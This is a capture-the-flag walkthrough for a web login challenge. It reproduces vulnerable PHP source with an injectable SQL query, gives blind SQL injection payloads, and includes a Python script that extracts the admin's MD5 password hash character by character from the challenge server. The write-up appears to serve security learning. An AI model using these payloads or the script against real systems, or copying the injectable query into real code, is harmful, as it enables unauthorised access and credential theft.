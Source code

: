 # Challenge

Night king needs the secret flag to destroy the wall. Help night king get flag from LordCommander(admin) so that army of dead can kill the living.

http://163.172.176.29/WALL

# Walkthrough/Solution

Source of the login page: 

```
<html>
<head>
<title>The Wall</title>
</head>
<body>
<form action="index.php" method="POST">
Username:<input type="text" name="life" /><br>
Password:<input type="password" name="soul" /><br>
<input type="submit">
</form>
<br>
Here is the sourec of <a href="source.php">index.php</a>
</body>
</html>
```
And we are given source of index.php: 
```
<html>
<head>
<title>The Wall</title>
</head>
<body>
<?php
include 'flag.php';
if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
    $username = $_REQUEST['life'];
    $password = $_REQUEST['soul'];
    if(!(is_string($username)&&is_string($password))){
        header( "refresh:1;url=login.html");
        die("You are not allowed south of wall");
    }
    $password = md5($password);
    include 'connection.php';
    /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    $message = "";
    if(preg_match('/(union|\|)/i', $username)){
        $message="Dead work alone not in UNIONs"."</br>";
        echo $message;
        die();
    }
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);
    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username'];
        }
    }
    else{
        $message = "No such person exists"."<br>";
    }
    echo $message;
}else{
    header( "refresh:1;url=login.html");
    die("Only living can cross The Wall");
}
?>
</body>
</html>
```
Things to note here:
1. We are given the username (LordCommander).
2. Password is hashed using md5 before sending it to the server. This means that the database probably stores the md5 hash of LordCommander's password.
3. Not allowed to use `UNION` and we probably would not need to.

Trying a simple payload `LordCommander' and LOWER(password) LIKE '%` returns us `Wrong identity for LordCommander` and the payload `LordCommander' and password = 'random` returns us `No such person exists`.

The information collected from the two different payloads corresponds to this block of code:
```
    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username']; // prints this message after trying 1st payload
        }
    }
    else{
        $message = "No such person exists"."<br>"; // prints this message after trying 2nd payload
    }
```
With that, we can use the first query to bruteforce a md5 password (of length 32).

Here's a script I wrote to solve the challenge. It can be more efficient by performing binary search but this is simpler to understand:

```
import requests
import string

indexPage = "http://163.172.176.29/WALL/index.php"

client = requests.Session()
password = ""
perm = string.digits + string.letters

while len(password) != 32:

    for i in perm:
        query = "LordCommander\' and LOWER(password) LIKE \'" + password + i + "%"

        payload = {'life':query, 'soul':'randomstring'}
        html = client.post(indexPage,data=payload).text

        if "No such person exists" in html:
            continue
        else:
            password += i
            print "Currently checking password: %s" % password
            print "Current length of password: %d" % len(password)

print "Admin's username is LordCommander and the password (in md5) is %s" % password
```
# Learning outcome
1. Blind SQLi through python scripting
